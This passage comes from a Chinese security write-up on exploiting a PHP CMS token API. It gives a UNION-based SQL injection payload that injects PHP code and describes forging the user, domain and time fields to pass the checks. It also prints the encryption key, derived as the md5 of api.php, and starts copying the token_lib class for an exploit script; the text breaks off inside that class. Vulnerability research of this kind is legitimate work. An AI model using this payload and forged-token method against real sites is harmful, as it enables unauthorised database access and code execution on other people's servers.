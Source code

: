 所以我们可以通过

`$msg['id']`等于`-2'union select '<?php echo "test_vuln";?>',2,3,4,5,6,7,8,9,10,11#`

![image-20230526142411317](https://shs3.b.qianxin.com/butian_public/f612904536cb03e917e5e132c41cada49a57f63712ba6.jpg)

`$msg['user']`等于`2`与上面sql注入的第二列一致以使得下面if判断`$rs['account'] != $msg['user']`不成立

`$msg['domain']`等于目标域名使得`$msg['domain'] != $domain`不成立

`$msg['time']`等于当前时间使得数据不超过30天

接下来这里主要来看看其时如何进行加密解密的，以便后续我编写加密脚本。

根据`$msg = $this->lib('token')->decode($quickcode);`我们查看`framework/libs/token.php`这个文件的`decode`方法

![image-20230525160032292](https://shs3.b.qianxin.com/butian_public/f137770523ca2f89690b61a6339cae07f396d40a88485.jpg)

同时可以发现有加密和解密的函数，是一个对称加密，所以我们需要寻找加密的密钥

![image-20230525160045013](https://shs3.b.qianxin.com/butian_public/f718969156cd6bcd22ac017b7ec988ba04c910844a7c0.jpg)

查看解密密钥解密密钥是`$this->dir_cache.$fid.'.php'`的md5值

![image-20230526094959220](https://shs3.b.qianxin.com/butian_public/f445489ba244a1e622338a99153752c80d94743051f24.jpg)

![image-20230526095136013](https://shs3.b.qianxin.com/butian_public/f342413433a0ee79511bb35c255439aa5935e2f799768.jpg)

即`api.php`的md5值，为`fb0b413b67dad231a42a6cd8facd5202`

![image-20230526095253062](https://shs3.b.qianxin.com/butian_public/f956813c7966cc4064bf2d00d7539c43cb5cfdb91bcfb.jpg)

所以我们删除加密函数的部分剩下直接照搬复制粘贴写exp(注意直接替换keyid为fb0b413b67dad231a42a6cd8facd5202)

```php
<?php

class token_lib
{
    private $keyid = '';
    private $keyc_length = 6;
    private $keya;
    private $keyb;
    private $time;
    private $expiry = 3600;
    private $encode_type = 'api_code'; //仅支持 api_code 和 public_key
    private $public_key = '';
    private $private_key = '';

    public function __construct()
    {
        $this->time = time();
    }

    public function etype($type="")
    {
        if($type && in_array($type,array('api_code','public_key'))){
            $this->encode_type = $type;
        }
        return $this->encode_type;
    }

    public function public_key($key='')
    {
        if($key){
            $this->public_key = $key;
        }
        return $this->public_key;
```
